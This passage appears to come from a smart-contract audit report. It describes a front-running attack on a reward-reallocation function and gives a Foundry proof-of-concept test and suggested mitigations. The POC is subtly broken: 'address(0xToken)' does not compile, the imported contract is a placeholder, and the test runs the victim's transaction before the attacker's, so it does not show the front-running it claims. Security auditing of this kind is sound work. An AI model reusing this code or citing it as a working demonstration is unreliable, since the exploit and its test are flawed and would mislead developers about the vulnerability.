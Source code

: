 ```solidity
    (uint256 userRewards, uint256 fees) = calculateUserRewardsAndFees(rewardAmountIncludingFees);
    pendingRewards += userRewards;
    accumulatedFees += fees;
}
```

**Exploit Scenario:**

1. User A submits a transaction to reallocate tokens and receive rewards.  
2. Attacker observes the transaction in the mempool.  
3. Attacker submits a similar transaction with a higher gas fee.  
4. Attacker drains the available rewards, leaving User A with nothing.

**Foundry Test (POC):**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/YourContract.sol";

contract FrontRunningAttackTest is Test {
    YourContract public contractInstance;
    address attacker = address(0x1);
    address victim = address(0x2);
    
    function setUp() public {
        contractInstance = new YourContract();
    }
    
    function testFrontRunning() public {
        vm.startPrank(victim);
        contractInstance.handleReallocation(1, victim, address(0xToken), 100, "");
        vm.stopPrank();

        vm.startPrank(attacker);
        contractInstance.handleReallocation(1, attacker, address(0xToken), 200, "");
        vm.stopPrank();

        uint256 rewards = contractInstance.claimableRewardAmount();
        assertEq(rewards, 0, "Victim received no rewards due to front-running.");
    }
}
```

###  Recommended Mitigations  

```md
1. Use a commit-reveal scheme: Prevent front-running by making users commit to inputs before revealing.
2. Implement gas price caps: Prevent transactions from cutting the queue based on gas price.
3. Batch process transactions: Handle all inputs fairly in a single round.
```

---